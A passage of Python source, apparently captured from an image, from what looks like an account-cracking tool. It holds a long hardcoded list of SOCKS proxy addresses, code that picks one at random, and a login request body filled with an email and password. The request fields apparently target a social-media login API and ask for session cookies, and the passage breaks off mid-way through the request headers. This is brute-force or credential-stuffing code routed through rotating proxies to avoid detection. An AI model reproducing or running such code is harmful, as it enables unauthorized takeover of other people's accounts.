 '188.64.113.104:1080', '188.75.255.119:35010', '222.165.223.140:41541', '200.116.198.140:37092', '192.252.216.81:4145', '213.6.77.198:5678', '170.246.85.108:37163', '183.88.247.52:4153', '187.19.127.246:8011', '200.41.60.33:4153', '141.94.254.138:49207', '190.12.95.170:37209', '181.115.75.102:5678', '72.206.181.123:4145', '191.36.191.53:5678', '36.64.16.154:35010', '184.105.133.1:48324', '117.74.65.29:646', '104.236.114.255:1611', '81.16.9.222:3629', '188.92.110.174:1080', '46.8.106.140:5500', '92.42.8.20:4145', '200.105.192.6:5678', '95.31.42.199:3629', '186.97.144.98:5678', '94.180.217.100:4145', '27.147.155.70:52596', '165.227.228.102:80', '108.41.35.10:22419', '181.129.74.58:30431', '187.67.26.179:4145', '117.74.65.29:3002', '51.79.248.208:54578', '187.32.20.249:5678', '200.159.146.184:4153', '117.74.65.215:9300', '103.247.22.52:12', '184.181.217.201:4145', '117.74.65.215:6789', '170.80.91.11:4145', '46.188.2.42:5678', '117.74.65.29:9093', '187.103.0.26:5678', '117.74.65.215:33427', '185.89.65.165:33744', '192.252.214.20:15864', '213.74.223.69:4153', '142.54.232.6:4145', '132.148.75.242:47171', '117.74.65.215:10091', '109.238.208.130:4153', '184.170.248.5:4145', '72.210.252.137:4145', '116.118.98.10:5678', '117.74.65.215:3000', '213.186.202.149:5678', '221.4.161.201:51080', '196.29.231.1:4145', '170.246.196.42:4153', '41.169.78.142:57775', '3.39.244.149:33080', '68.71.249.153:48606', '202.40.186.66:1088', '123.56.129.203:8089', '51.255.80.151:42304', '142.229.215.114:3128', '208.102.51.6:58208', '182.253.93.4:4145', '62.112.11.204:12692', '202.124.224.19:80', '46.227.37.21:1088', '134.209.154.177:11639', '159.192.121.240:4145', '138.219.201.242:5678', '174.75.211.222:4145', '140.210.196.193:20000', '117.74.65.215:1604', '79.143.225.152:31270', '103.106.119.146:12391', '177.131.29.209:4153', '109.224.12.170:52015', '98.162.96.41:4145', '117.74.65.215:11443', '81.174.11.159:43516', '200.146.229.129:8291', '177.185.221.57:21776', '14.160.23.139:4145', '94.247.241.70:51006', '117.74.65.29:8110', '213.165.185.211:4153', '138.68.116.249:8017', '107.181.168.145:4145', '177.66.59.130:4153', '98.181.137.80:4145', '213.222.34.200:4145', '72.221.232.155:4145', '204.3.205.243:80', '45.157.126.165:6121', '103.28.23.229:4145', '180.250.190.150:1080', '103.127.204.112:12132', '213.226.11.149:59086', '92.51.78.66:4153', '186.94.29.52:8080', '181.129.62.2:47377', '24.249.199.4:4145', '203.76.112.68:5678', '94.181.33.149:40840', '37.131.165.19:59341', '185.18.72.249:4153', '47.243.124.21:81', '172.106.13.203:56950', '181.143.61.123:4153', '67.201.33.10:25283', '27.118.21.13:5678', '213.74.223.76:4153', '103.139.246.166:5678', '62.122.201.246:50129', '89.38.96.50:48439', '115.127.87.62:1088', '115.127.75.154:1088', '103.93.100.78:32000', '103.48.183.113:4145', '103.138.22.165:32000', '190.119.167.154:5678', '104.200.135.46:4145', '103.91.95.2:32767', '119.46.2.250:4145', '103.134.113.247:32767', '114.103.88.116:8089', '110.44.171.10:57775', '95.170.202.197:58744', '46.172.75.51:5678', '41.58.169.214:5678', '190.186.216.196:5678', '103.235.199.100:25566', '58.143.65.69:22569', '125.126.213.4:38801', '197.234.58.102:57775', '45.117.228.81:4145', '186.145.192.251:5678', '109.94.178.238:3629', '103.250.153.202:41889', '46.105.105.223:45443', '138.122.74.55:57775', '200.60.71.12:46934', '103.167.172.104:57775', '183.111.165.166:14', '159.65.9.135:10277', '146.196.121.29:57775', '47.109.46.223:8090', '117.74.65.29:8012', '142.54.235.9:4145', '107.152.98.5:4145', '103.79.165.164:57775', '193.106.192.50:36387', '154.0.155.205:8080', '202.154.18.115:1080', '177.234.244.170:32213', '72.49.49.11:31034', '45.174.240.94:999', '103.168.233.91:25566', '103.149.104.161:4153', '170.254.148.110:8080', '159.138.255.141:9981', '79.122.244.99:3128', '49.70.89.82:9999', '95.158.174.111:1080', '103.18.232.47:80', '202.57.37.197:35846', '43.229.73.239:41862', '41.190.152.130:4673', '79.173.75.182:3629', '41.57.34.112:1080', '110.78.149.70:4145', '31.131.135.247:4153', '5.133.96.148:4153', '103.152.104.228:1080', '80.250.18.225:25566', '190.114.143.226:8080', '117.198.221.34:4153', '213.145.134.174:3629', '177.38.245.106:55713', '201.184.239.75:5678', '103.230.62.146:12391', '117.74.125.19:1313', '194.85.135.243:4145', '80.254.185.73:1080', '93.104.63.65:80', '165.0.15.182:5678', '91.193.125.123:3629', '117.74.120.61:1313', '177.107.217.112:4145', '24.172.34.114:60133', '41.190.232.36:36926', '117.220.162.33:5621', '95.81.94.254:3128', '197.211.24.206:5678', '103.176.96.116:5678', '91.121.163.199:40148', '94.154.21.65:1080', '102.89.12.203:7599', '119.18.146.139:4153', '209.94.84.65:1080', '117.74.120.121:1133', '47.100.90.127:10443', '103.207.170.131:5678', '180.210.222.233:1080']
            proxy = random.choice(proxy)
            proxs= {'http': 'socks4://'+proxy}
            dataX = {'email':uid,
                    'password':pw,
                    'cpl':'true',
                    'credentials_type':'password',
                    'error_detail_type':'button_with_disabled',
                    'source':'login',
                    'format':'json',
                    'generate_session_cookies':'1',
                    'generate_analytics_claim':'1',
                    'generate_machine_id':'1'}
            headersX = {'accept-encoding': 'gzip, deflate', 
                    'Accept': '*/*', 
                    'Connection': 'keep-alive', 
                    'content-type': 'application/x-www-form-urlencoded', 